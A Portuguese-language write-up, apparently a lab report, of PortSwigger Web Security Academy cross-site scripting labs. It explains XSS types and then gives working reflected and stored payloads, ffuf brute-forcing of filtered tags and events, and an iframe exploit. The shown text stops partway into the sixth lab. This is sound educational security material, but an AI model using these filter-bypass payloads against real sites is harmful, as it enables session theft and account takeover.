

<div class="page"/>

# **Cross-site Scripting (XSS) | Sonael de A. Angelos Neto**

- ### **O que é Cross-site Scripting (XSS)?**

    **Cross-site scripting (XSS)** é uma vulnerabilidade de segurança de aplicativos web que permite que um invasor insira scripts maliciosos em páginas web visitadas por outras pessoas. Os scripts podem roubar informações do usuário, como cookies de sessão, e podem ser usados para implantar malware ou phishing. XSS é comum em sites que incluem conteúdo dinâmico inserido por usuários, como comentários em blogs ou fóruns, mas pode ocorrer em qualquer site que não valide ou filtre corretamente o conteúdo inserido pelo usuário.

- ### **Quais são os tipos de Cross-site scripting?**
    Existem basicamente três tipos de Cross-site Scripting (XSS):

    - **XSS Refletido:** Ocorre quando um atacante injeta um script malicioso em uma página web através de um parâmetro da URL. O script é então refletido de volta para o navegador do usuário, onde é executado. Este tipo de XSS é geralmente utilizado para roubar informações do usuário, como cookies de sessão.

    - **XSS Armazenado:** Ocorre quando um atacante injeta um script malicioso em uma página web através de um formulário de entrada de dados. O script é então armazenado no servidor e é executado toda vez que outro usuário visita a página. Este tipo de XSS é mais perigoso do que o XSS refletido, pois pode afetar muitos usuários.

    - **XSS Dom-based:** Este tipo de XSS é diferente dos outros dois tipos, pois não envolve a injeção de scripts maliciosos no lado do servidor, mas sim no lado do cliente. Ele ocorre quando um script legítimo modifica dinamicamente o conteúdo da página web usando a API do Document Object Model (DOM), permitindo que o atacante execute códigos maliciosos no navegador do usuário.

    Os tipos de XSS variam de acordo com a forma como o código malicioso é injetado e como ele é executado no navegador do usuário. As técnicas de segurança para evitar essas vulnerabilidades devem ser aplicadas de forma diferenciada para cada tipo de XSS.

- ### **Como um hacker pode explorar essa falha?**

    Existem várias formas que um hacker pode explorar uma vulnerabilidade de Cross-site Scripting (XSS). Algumas das formas mais comuns incluem:

    - **Injeção de código através de parâmetros da URL:** Um hacker pode injetar um script malicioso em uma página web através de um parâmetro da URL, como um parâmetro de busca. Quando outro usuário clica no link malicioso, o script é refletido de volta para o navegador do usuário e é executado.

    - **Injeção de código através de formulários de entrada de dados:** Um hacker pode injetar um script malicioso em uma página web através de um formulário de entrada de dados, como um campo de comentário. Quando outro usuário visita a página, o script é armazenado no servidor e é executado toda vez que a página é acessada.

    - **Injeção de código através de arquivos de upload:** Um hacker pode injetar um script malicioso em uma página web através de arquivos de upload, como imagens ou documentos. Quando outro usuário visualiza o arquivo, o script é executado no navegador do usuário.

    - **Utilizando payloads prontos:** Um hacker pode utilizar payloads prontos, que são códigos maliciosos já elaborados e testados, para explora a vulnerabilidade XSS em um determinado alvo.

    - **Utilizando ferramentas automatizadas:** Um hacker pode utilizar ferramentas automatizadas, como scanners de vulnerabilidade, para buscar e explorar vulnerabilidades de XSS em um site.

    Em resumo, existem diversas formas de explorar uma vulnerabilidade de XSS, desde a injeção de código malicioso através de parâmetros da URL ou formulários de entrada de dados, até a utilização de ferramentas automatizadas ou payloads prontos.

- ### **Por que o "`alert(1)`" não necessariamente caracteriza um XSS de potencial impacto?**

    O alert(1) é um exemplo comum de código JavaScript que é utilizado em exemplos de XSS. Ele simplesmente exibe uma caixa de diálogo com o texto "1" quando é executado. No entanto, essa técnica por si só não necessariamente caracteriza um XSS de potencial impacto.

    Um XSS de impacto potencial é aquele onde o código malicioso injetado tem a capacidade de realizar ações nocivas, como roubar informações confidenciais do usuário, modificar o conteúdo da página, redirecionar o usuário para outro site ou até mesmo tomar controle da conta do usuário. O alert(1) não possui essas capacidades, é apenas uma forma simples de testar se uma aplicação está vulnerável a XSS.

    Outro fator a ser considerado é que, como o alert(1) é facilmente reconhecido pelos sistemas de segurança de aplicativos, como o Anti-Virus e firewalls, um atacante pode utilizar outros métodos de código malicioso mais avançado, que possam passar desapercebidos pelos sistemas de segurança e assim causar impactos maiores.

    Portanto, enquanto o alert(1) pode ser usado como uma técnica de teste para verificar a vulnerabilidade de uma aplicação a XSS, não necessariamente caracteriza um XSS de impacto potencial. É preciso considerar outros fatores, como a capacidade do código malicioso de causar danos e se ele foi detectado pelos sistemas de segurança, para determinar o verdadeiro impacto de um ataque de XSS.

--- 

<div class="page"/>

  ## **<center>Sumário</center>**

  Nesse documento, iremos explorar vulnerabilidades de `"Cross-site Scripting (XSS)"`, utilizando **6** laboratórios diferentes da [Portswigger Academy](https://portswigger.net/web-security/all-labs), sendo eles:

  1. #### ***<a href="#1">Reflected XSS into HTML context with nothing encoded.</a>***
  2. #### ***<a href="#2">Stored XSS into HTML context with nothing encoded.</a>***
  3. #### ***<a href="#3">Reflected XSS into HTML context with most tags and attributes blocked.</a>***
  4. #### ***<a href="#4">Stored XSS into anchor href attribute with double quotes HTML-encoded.</a>***
  5. #### ***<a href="#5">Reflected XSS into a JavaScript string with single quote and backslash escaped.</a>***
  6. #### ***<a href="#6">Reflected XSS into a JavaScript string with angle brackets HTML encoded.</a>***

### **Complementos:**

7. #### ***<a href="#7">Mitigação.</a>***
8. #### ***<a href="#8">Dificuldades.</a>***
9. #### ***<a href="#9">Conclusão.</a>***
10. #### ***<a href="#10">Referências.</a>***
11. #### ***<a href="#11">Links p/ Laboratórios.</a>***
  

---

### **Ferramentas utilizadas:**

- #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

- #### [ffuf](https://github.com/ffuf/ffuf) :
    - Utilizaremos o `ffuf` para realizar brute force.

---


<div class="page"/>

## **<a id="1"> • Reflected XSS into HTML context with nothing encoded.</a>**

O objetivo desse laboratório é explorar uma vulnerabilidade de `Cross-site Scripting (XSS) - Refletido` em um campo de busca de um blog.

Para isso, iremos analisar a requisição que é enviada para o back-end quando pesquisamos por um termo no campo de busca.

**Request** | **Response** 
:---------: | :------:
 |


Através da requisição podemos ver que o termo que pesquisamos é refletido na resposta dentro de uma tag `<h1>`, o que nos leva a crer que o termo é renderizado dentro de um contexto HTML.

Para confirmar essa hipótese, iremos enviar um payload de XSS simples, como por exemplo: "`<script>alert(1)</script>`", e ver se o payload é executado.


<div class="page"/>

Dessa forma podemos ver que o payload foi executado, o que nos leva a crer que a aplicação está vulnerável a XSS.




E assim é concluído o laboratório.




---

## **<a id="2"> • Stored XSS into HTML context with nothing encoded.</a>**

Dessa vez, o objetivo é explorar uma vulnerabilidade de `Cross-site Scripting (XSS) - Armazenado` em um campo de comentários de um blog. Para isso, iremos analisar a requisição que é enviada para o back-end quando adicionamos um comentário em um post da aplicação.

``` HTTP

POST /post/comment HTTP/1.1
Host: 0a060043046b904cc3443e5800560094.web-security-academy.net
Cookie: session=8TQiATo9VSBQpFZIlVRrwRGSo2NeolpK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: https://0a060043046b904cc3443e5800560094.web-security-academy.net
Referer: https://0a060043046b904cc3443e5800560094.web-security-academy.net/post?postId=10
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=G5Rkm7KlTXfbqky0lb1JNPDhDIOFMLv2&postId=10&comment=test&name=Sonael&email=sonael%40net.com&website=https%3A%2F%2Fsonaelneto.org

```

Ao recarregar a página e analisarmos a requisição GET feita para o back-end, podemos ver que o comentário que adicionamos foi armazenado no banco de dados e está sendo renderizado na página em um contexto HTML.


``` html

    <section class="comment">
        <p>
                                    
        <a id="author" href="https://sonaelneto.org">Sonael</a> | 26 January 2023
        </p>
        <p>test</p>
        <p></p>
    </section>

```


Logo, podemos testar o mesmo payload de XSS que usamos no laboratório anterior, para confirmar que a aplicação está vulnerável a XSS utilizando a seguinte requisição.

```http

POST /post/comment HTTP/1.1
Host: 0a060043046b904cc3443e5800560094.web-security-academy.net
Cookie: session=8TQiATo9VSBQpFZIlVRrwRGSo2NeolpK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 153
Origin: https://0a060043046b904cc3443e5800560094.web-security-academy.net
Referer: https://0a060043046b904cc3443e5800560094.web-security-academy.net/post?postId=10
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=G5Rkm7KlTXfbqky0lb1JNPDhDIOFMLv2&postId=10&comment=<script>alert(1)</script>&name=Sonael&email=sonael%40net.com&website=https%3A%2F%2Fsonaelneto.org

```

Dessa forma o payload XSS fica armazenado no banco de dados e é renderizado na página sempre que o post for acessado.


E assim é concluído o laboratório.



---

<div class="page"/>

## **<a id="3"> • Reflected XSS into HTML context with most tags and attributes blocked.</a>**

O objetivo desse laboratório é explorar uma vulnerabilidade de "`Cross-site Scripting (XSS) - Refletido`".

Porém quando enviarmos o payload de XSS simples como `<scrip>alert(1)</script>` para o campo de pesquisa, o payload não será executado, pois a aplicação está bloqueando algumas tags e atributos HTML.

**Request** | **Response** 
:---------: | :------:
 |

Para bypassar essa proteção, podemos fazer um brute force de tags e atributos HTML, até que encontremos uma tag que não seja bloqueada pela aplicação.

O própria **Portswigger** disponibiliza uma lista de tags e atributos HTML que podem ser utilizados para fazer o brute force, que pode ser encontrada [aqui](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

Então iremos salvar a lista de tags em uma *wordlist* e utilizar o `ffuf` para fazer o brute force.

```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                       02:20:09
╰──➤ ffuf -w tags.txt -u https://0a62005703fe7516c262dbca0057004b.web-security-academy.net/\?search\=\<FUZZ\>

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://0a62005703fe7516c262dbca0057004b.web-security-academy.net/?search=<FUZZ>
 :: Wordlist         : FUZZ: tags.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

body                    [Status: 200, Size: 3154, Words: 1186, Lines: 66, Duration: 293ms]
:: Progress: [152/152] :: Job [1/1] :: 13 req/sec :: Duration: [0:00:12] :: Errors: 0 ::


```

Com o brute force realizado, podemos ver que a tag `<body>` não está sendo bloqueada pela aplicação, então podemos utilizar essa tag para executar o payload de XSS.

```html
    <body onload="alert(1)">
```

Porém, a aplicação também está bloqueando alguns eventos como por exemplo o `onload`, tornando o script acima inválido. Então iremos utilizar novamente o ffuf para fazer um brute force de eventos.

Utilizando a mesma lista disponibilizada anteriormente pela **Portswigger**, podemos fazer o brute force e encontrar o evento `onresize` que não está sendo bloqueado pela aplicação.

```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                       02:24:22
╰──➤ ffuf -w events.txt -u https://0a62005703fe7516c262dbca0057004b.web-security-academy.net/\?search\=\<body%20FUZZ\=1\>

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://0a62005703fe7516c262dbca0057004b.web-security-academy.net/?search=<body%20FUZZ=1>
 :: Wordlist         : FUZZ: events.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

onresize                [Status: 200, Size: 3165, Words: 1187, Lines: 66, Duration: 277ms]
onratechange            [Status: 200, Size: 3169, Words: 1187, Lines: 66, Duration: 337ms]
onbeforeinput           [Status: 200, Size: 3170, Words: 1187, Lines: 66, Duration: 266ms]
:: Progress: [108/108] :: Job [1/1] :: 21 req/sec :: Duration: [0:00:09] :: Errors: 0 ::

```

perceba que foi preciso utilizar o `%20` entre o `body` e o `evento`, pois como o brute force é feito em uma URL, o `%20` é considerado como um espaço na URL.

Com o evento `onresize` encontrado, podemos executar o payload de XSS no exploit server disponibilizado no laboratório.

```html

    <iframe src="https://0a62005703fe7516c262dbca0057004b.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>

```

Onde o `onresize` é o evento que foi encontrado no brute force, e o `print()` é o payload de XSS que será executado quando o evento for disparado, o `src` do iframe é a URL que será carregada quando o iframe for carregado, e o `onload` é um evento que é disparado quando o iframe é carregado, e o `this.style.width='100px'` é uma propriedade CSS que irá alterar a largura do iframe para 100px, para que o iframe seja renderizado na página.

Note que ainda estamos utilizando o url encoding no `src` para que o payload seja executado corretamente.

<div class="page"/>

Agora basta clicar em **Store** e **Deliver exploit to victim** para que o payload seja executado.



Concluindo assim o laboratório.



---

## **<a id="4"> • Stored XSS into anchor href attribute with double quotes HTML-encoded.</a>**

O objetivo desse laboratório é executar um XSS através de um link que está sendo armazenado no banco de dados da aplicação.

Para isso, iremos analisar a requisição que é enviada para o back-end quando adicionamos um comentário em um post da aplicação.


```http

POST /post/comment HTTP/1.1
Host: 0a8e00750415315ac74f5a89005200f8.web-security-academy.net
Cookie: session=SiuC6jAxsQZycfh99WMHlAYAInNC4jq2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Origin: https://0a8e00750415315ac74f5a89005200f8.web-security-academy.net
Referer: https://0a8e00750415315ac74f5a89005200f8.web-security-academy.net/post?postId=3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=cMePI5BW0mBQ9D0N4NJEqXm46g9BgraQ&postId=3&comment=Sonael&name=Sonael&email=sonael%40net.com&website=https%3A%2F%2Fsonaelneto.org

```

Perceba que o comentário é enviado através de um formulário, e que o campo `website` é o campo que contém o link que será armazenado no banco de dados.

Isso fica mais claro quando fazemos uma requisição GET para a página onde foi adicionado o comentário e analisamos a resposta.

```html

    <section class="comment">
        <p>
                                    
        <a id="author" href="https://sonaelneto.org">Sonael</a> | 26 January 2023
        </p>
        <p>Sonael</p>
        <p></p>
    </section>

```

Perceba que o campo `website` está sendo usando para preencher o atributo `href`, podemos usar-lo para inserir um XSS no link, para que então quando o usuário clicar no link, o XSS será executado.

Para isso vamos utilizar o payload `javascript:alert(1)` no campo `website`.

```http

POST /post/comment HTTP/1.1
Host: 0a8e00750415315ac74f5a89005200f8.web-security-academy.net
Cookie: session=SiuC6jAxsQZycfh99WMHlAYAInNC4jq2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: https://0a8e00750415315ac74f5a89005200f8.web-security-academy.net
Referer: https://0a8e00750415315ac74f5a89005200f8.web-security-academy.net/post?postId=3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=cMePI5BW0mBQ9D0N4NJEqXm46g9BgraQ&postId=3&comment=teste&name=sonael&email=sonael%40net.com&website=javascript%3Aalert%281%29

```

Agora basta enviar essa requisição e clicar no link que foi adicionado para trigger o XSS.



Concluindo assim o laboratório.



---

<div class="page"/>

## **<a id="5"> • Reflected XSS into a JavaScript string with single quote and backslash escaped.</a>**

O objetivo desse laboratório é explorar uma vulnerabilidade de `Cross-site Scripting (XSS) - Refletido` em um campo de busca de um blog.

Ao enviar um payload simples de XSS como `<script>alert(1)</script>` para o campo de busca, percebemos que o payload é refletido na página de resultados da busca porém não é executado.



Então iremos analisar a requisição que é enviada para o back-end quando pesquisamos por um termo no campo de busca.

Analisando a resposta da requisição percebemos que o termo pesquisado é utilizado para preencher a variável `searchTerms` que é utilizada para preencher o atributo `src` de uma imagem.

```html

    <script>
        var searchTerms = '<script>alert(1)</script>';
        document.write('');
    </script>

```

Isso significa que o termo da busca está sendo utilizado em um contexto de JavaScript, e que por isso o payload não está sendo executado.

Para explorar essa vulnerabilidade, teremos que fechar a tag `<script>` e abrir uma nova tag para que o payload seja executado.

Então iremos utilizar o seguinte script:

```html
</script><script>alert(1)</script>
```

Ao enviar esse payload para o campo de busca, o XSS é executado.



E o laboratório é concluído.



---

## **<a id="6"> • Reflected XSS into a JavaScript string with angle brackets HTML encoded.</a>**

Da mesma forma que o laboratório anterior, o objetivo desse laboratório é explorar uma vulnerabilidade de `Cross-site Scripting (XSS) - Refletido` em um campo de busca de um blog.

Porém, nesse laboratório, ao utilizarmos o **Burp Suit** para analisar a resposta da requisição que é enviada para o back-end quando enviamos uma payload XSS simples, percebemos que o valor da variável `searchTerms` está sendo HTML encoded.

```html

    <script>
        var searchTerms = '&lt;script&gt;alert(1)&lt;/script&gt;';
        document.write('');
    </script>

```

